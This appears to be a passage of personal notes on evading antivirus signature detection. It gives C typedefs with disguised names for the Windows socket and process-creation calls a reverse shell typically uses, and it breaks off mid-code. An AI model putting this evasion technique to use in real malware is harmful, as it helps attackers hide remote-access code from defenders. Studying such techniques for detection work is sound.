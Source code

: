 Per the MS docs for the custom function:

![[Signature Evasion Code Blocks-4.png]]
Instead of `typedef BOOL` we use `typedef SOCKET`, the idea is we should check this against threatcheck and look at the Import Address Table and see what could possibly be flagged.

```C
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

typedef SOCKET (WINAPI *myNotSocketA)(
    int af,
    int type,
    int protocol,
    LPWSAPROTOCOL_INFOA lpProtocolInfo,
    GROUP g,
    DWORD dwFlags
);

typedef int (WSAAPI *npalmEra)(
    SOCKET s,
    const struct sockaddr *name,
    int namelen,
    LPWSABUF lpCallerData,
    LPWSABUF lpCalleeData,
    LPQOS lpSQOS,
    LPQOS lpGQOS
);

typedef BOOL (WINAPI *uncoolInstruction)(
    LPCSTR lpApplicationName,
    LPSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCSTR lpCurrentDirectory,
    LPSTARTUPINFOA lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);

typedef int (WINAPI *calculateOutput)(
    WORD wVersionRequired,
    LPWSADATA lpWSAData
);


typedef DWORD (WINAPI *DontWaitForCalculation)(HANDLE, DWORD);

typedef int (WINAPI *myCloseSocket)(
        SOCKET s

);

typedef int (WINAPI *myWCleanup)(

);

typedef unsigned long (WINAPI *myInetAddr)(
```